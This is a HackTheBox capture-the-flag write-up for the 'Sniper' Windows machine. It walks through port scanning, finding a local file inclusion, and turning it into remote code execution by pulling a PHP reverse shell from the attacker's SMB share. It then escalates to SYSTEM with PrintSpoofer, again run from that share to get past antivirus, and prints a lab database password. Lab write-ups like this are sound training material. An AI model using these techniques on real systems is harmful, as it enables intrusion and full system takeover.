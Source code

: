 ```yaml
---
description: Sniper box from HackTheBox write up.
---
```


# Sniper

## Nmap

Let's start with the typical Nmap scan to see what we have.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap --min-rate 1500 -p- 10.10.10.151
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-01 10:36 EDT
Nmap scan report for 10.10.10.151
Host is up (0.059s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 87.49 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p80,135,139,445,49667 10.10.10.151
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-01 10:39 EDT
Nmap scan report for 10.10.10.151
Host is up (0.058s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Sniper Co.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-01T21:40:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.99 seconds
```

After a quick test, null sessions are not allowed in the SMTP service so I will start wit the webserver for now.

## Port 80

The first thing I tried was to check the different directories of the site:

```bash
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://10.10.10.151 -w Wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.151
 🚀  Threads               │ 50
 📖  Wordlist              │ Wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        2l       10w      148c http://10.10.10.151/blog => http://10.10.10.151/blog/
301      GET        2l       10w      150c http://10.10.10.151/images => http://10.10.10.151/images/
200      GET       87l      214w     2635c http://10.10.10.151/
200      GET       87l      214w     2635c http://10.10.10.151/index.php
301      GET        2l       10w      148c http://10.10.10.151/user => http://10.10.10.151/user/
301      GET        2l       10w      155c http://10.10.10.151/user/images => http://10.10.10.151/user/images/
200      GET      229l      586w     5704c http://10.10.10.151/blog/index.php
302      GET        0l        0w        0c http://10.10.10.151/user/index.php => login.php
200      GET      107l      202w     5456c http://10.10.10.151/user/login.php
301      GET        2l       10w      161c http://10.10.10.151/user/images/icons => http://10.10.10.151/user/images/icons/
200      GET      112l      231w     5922c http://10.10.10.151/user/registration.php
301      GET        2l       10w      147c http://10.10.10.151/css => http://10.10.10.151/css/
301      GET        2l       10w      152c http://10.10.10.151/blog/css => http://10.10.10.151/blog/css/
301      GET        2l       10w      152c http://10.10.10.151/user/css => http://10.10.10.151/user/css/
301      GET        2l       10w      146c http://10.10.10.151/js => http://10.10.10.151/js/
301      GET        2l       10w      151c http://10.10.10.151/blog/js => http://10.10.10.151/blog/js/
200      GET        0l        0w        0c http://10.10.10.151/user/db.php
301      GET        2l       10w      151c http://10.10.10.151/user/js => http://10.10.10.151/user/js/
302      GET        1l        0w        3c http://10.10.10.151/user/logout.php => login.php
301      GET        2l       10w      155c http://10.10.10.151/user/vendor => http://10.10.10.151/user/vendor/
302      GET        0l        0w        0c http://10.10.10.151/user/auth.php => login.php
301      GET        2l       10w      154c http://10.10.10.151/user/fonts => http://10.10.10.151/user/fonts/
301      GET        2l       10w      165c http://10.10.10.151/user/vendor/bootstrap => http://10.10.10.151/user/vendor/bootstrap/
301      GET        2l       10w      169c http://10.10.10.151/user/vendor/bootstrap/css => http://10.10.10.151/user/vendor/bootstrap/css/
301      GET        2l       10w      168c http://10.10.10.151/user/vendor/bootstrap/js => http://10.10.10.151/user/vendor/bootstrap/js/
301      GET        2l       10w      162c http://10.10.10.151/user/vendor/jquery => http://10.10.10.151/user/vendor/jquery/
301      GET        2l       10w      163c http://10.10.10.151/user/vendor/animate => http://10.10.10.151/user/vendor/animate/
```

The page has something called User Portal that ask for login but also let you sign up. When registering in the page, the portal is under construction so nothing interesting. The blog part has something worth our time, check this URL: http://10.10.10.151/blog/index.php?lang=blog-en.php, maybe it is vulnerable to LFI. Checking for the `c:\Windows\win.ini` I got the contents with this: `view-source:http://10.10.10.151/blog/?lang=\windows\win.ini`.

### Getting RCE

Looks like we have no permissions to check the ISS logs for RCE and the service is filtering HTTP URLs to get RFI. The thing is that the server allows SMB URLs! So I got a PHP reverse shell and, hosting a Samba server, I made the server execute it: `http://10.10.10.151/blog/?lang=//10.10.14.4/public/shell.php`.

Using SMB for hosting payloads was new for me but worked like a charm and now I have a reverse shell.

## Pwned!

I found the credentials for the database in the website PHP files:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Using Crackmapexec I saw that the password is valid for the Chris user. The thing is that I also found this:

```
PS C:\> whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The `SeImpersonatePrivilege` if enabled for our current user, this means that maybe we can use something like [PrintSpoofer](https://github.com/itm4n/PrintSpoofer){:target="_blank"} to escalate to  `nt authority\system`. There is a AV in place but using my SMB share I was able to execute it without problems:

```
C:\inetpub\wwwroot\blog>\\10.10.14.4\public\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

Look at that! We pwned the machine. Checking some other writeups, looks like this was not the intended way of getting full privileges but it is always fun to find alternative paths.
